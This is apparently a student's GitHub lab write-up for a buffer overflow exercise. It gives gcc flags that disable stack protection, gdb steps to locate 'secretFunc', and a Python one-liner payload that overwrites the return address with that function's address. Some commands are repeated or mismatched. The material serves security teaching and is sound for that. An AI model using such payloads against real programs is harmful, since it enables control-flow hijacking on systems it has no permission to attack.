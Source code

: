 # 20110540, Huỳnh Hùng Phú
# Lab #1: Buffer Overflow
# Task 1: Stack smashing by memory overwritten
## 1.1. bof1.c
<span style="color:blue">Compiles program with </span>`` gcc -g bof1.c -o bof1.o -fno-stack-protector -mpreferred-stack-boundary=2 ``<br>
<span style="color:blue">Start 'gdb' with compiled executable </span>`` gdb -q bof1.out ``<br>
<span style="color:blue">Use 'disassemble'command to find the address of 'secretFunc' </span>`` gdb -q bof1.out ``<br>
<span style="color:blue">'SecretFunc' starts at memory address 0x0804846b </span><br>
<span style="color:blue">Overwrite the 200-byte array and additionally overwrite 4 bytes previous frame pointer + the address of the secretFunc function </span>`` python -c 'print "a"*204 + "\x6b\x84\x04\x08"' | ./bof1.o 1 ``<br>
<span style="color:blue">Completely</span>
<img width="726" alt="Screenshot 2023-05-02 165126" src="https://raw.githubusercontent.com/hungphu2151/security_labs/main/images/bof1.png">
